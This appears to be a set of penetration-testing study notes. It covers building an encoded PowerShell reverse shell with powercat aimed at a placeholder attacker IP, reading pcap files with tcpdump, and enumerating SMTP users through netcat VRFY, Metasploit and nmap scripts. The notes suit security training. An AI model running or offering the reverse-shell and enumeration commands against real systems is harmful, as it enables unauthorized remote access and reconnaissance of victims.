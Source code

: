 `powercat -c <attackerip> -p 443 -e cmd.exe -ge > encodedreverseshell. ps1`

> The file will contain an encoded string that can be executed using the PowerShell -E (EncodedCommand) option. However, since the -E option was designed as a way to submit complex commands on the command line, the resulting encodedreverseshell.ps1 script can not be executed in the same way as our unencoded payload. Instead, Bob needs to pass the whole encoded string to powershell.exe -E:

`powershell.exe -E encoded payload strings`

***

**TCP DUMP**

> Tcpdump106 is a text-based network sniffer that is streamlined, powerful, and flexible despite the lack of a graphical interface. It is by far the most commonly-used command-line packet analyzer and can be found on most Unix and Linux operating systems, but local user permissions determine the ability to capture network traffic

\*Analysing a pcap filethrough tcpdump

Open pcap file in comand line: `sudo tcpdump -r password_cracking_filtered.pcap`

Filtering Trafic `sudo tcpdump -n -r password_cracking_filtered.pcap | awk -F" " '{print $3 }' | sort | uniq -c | head`

***

**SMTP ENUMERTAION** Port 25

> We can also gather information about a host or network from vulnerable mail servers. The Simple Mail Transport Protocol (SMTP)216 supports several interesting commands, such as VRFY and EXPN. A VRFY request asks the server to verify an email address, while EXPN asks the server for the membership of a mailing list. These can often be abused to verify existing users on a mail server, which is useful information during a penetration test. Consider this example.

Connect using netcat: `nc -nv <IP> <PORT>`

VRFY: After connection run : `VRFY` root or any syspected username

> Using metasploit

`auxiliary/scanner/smtp/smtp_enum`

> NMAP SCRIPTS

```bash
ls /usr/share/nmap/scripts/smtp*
/usr/share/nmap/scripts/smtp-brute.nse       /usr/share/nmap/scripts/smtp-strangeport.nse
/usr/share/nmap/scripts/smtp-commands.nse    /usr/share/nmap/scripts/smtp-vuln-cve2010-4344.nse
/usr/share/nmap/scripts/smtp-enum-users.nse  /usr/share/nmap/scripts/smtp-vuln-cve2011-1720.nse
/usr/share/nmap/scripts/smtp-ntlm-info.nse   /usr/share/nmap/scripts/smtp-vuln-cve2011-1764.nse
/usr/share/nmap/scripts/smtp-open-relay.nse
```

> GET NTML AUTH IF SERVER SUPPORTS IT

https://book.hacktricks.xyz/network-services-pentesting/pentesting-smtp#ntlm-auth-information-disclosure

> RECOURSES
